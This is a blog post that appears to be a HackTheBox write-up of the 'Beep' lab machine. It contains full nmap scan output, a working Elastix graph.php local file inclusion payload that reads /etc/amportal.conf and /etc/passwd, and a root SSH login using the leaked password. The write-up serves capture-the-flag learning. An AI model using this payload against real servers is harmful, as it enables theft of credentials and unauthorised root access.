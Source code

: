```yaml
---
layout: post
title:  "HackTheBox - Beep"
date:   2020-1-2 00:10:00 +0000
categories: htb
permalink: /:categories/beep/
---
```

Beep was a very easy box with not much to learn. Would have liked to see more complex methods included as the initial vector was different and could have led to more interesting things.


# Nmap scan
```console
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL APOP LOGIN-DELAY(0) STLS AUTH-RESP-CODE EXPIRE(NEVER) TOP IMPLEMENTATION(Cyrus POP3 server v2) USER RESP-CODES PIPELINING
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            743/udp  status
|_  100024  1            746/tcp  status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK RENAME URLAUTHA0001 IMAP4 NO X-NETSCAPE QUOTA SORT CONDSTORE MULTIAPPEND UNSELECT IDLE CATENATE IMAP4rev1 ACL THREAD=REFERENCES LITERAL+ RIGHTS=kxte ATOMIC NAMESPACE BINARY ID LIST-SUBSCRIBED SORT=MODSEQ MAILBOX-REFERRALS CHILDREN ANNOTATEMORE UIDPLUS THREAD=ORDEREDSUBJECT STARTTLS LISTEXT
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2018-10-31T09:44:22+00:00; -2h00m46s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host
```

# Exploitation
We can see from the nmap scan and from navigating the page that the webserver is running elastix. A exploit-db search for elastix returns a local file inclusion that should reveal a user login and password from a config file.
```
Elastix 2.2.0 - 'graph.php' Local File Inclusion | exploits/php_webapps/37637.pl
```
Reading the exploit and grabbing the payload we can navigate back to the page and read the config file with the LFI
```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
There are passwords in the config file as expected, next we can change the LFI to point to /etc/passwd to check for user accounts to try ssh with.

sshing into the box as root with the password from the config file works and we can collect our root and user flags.
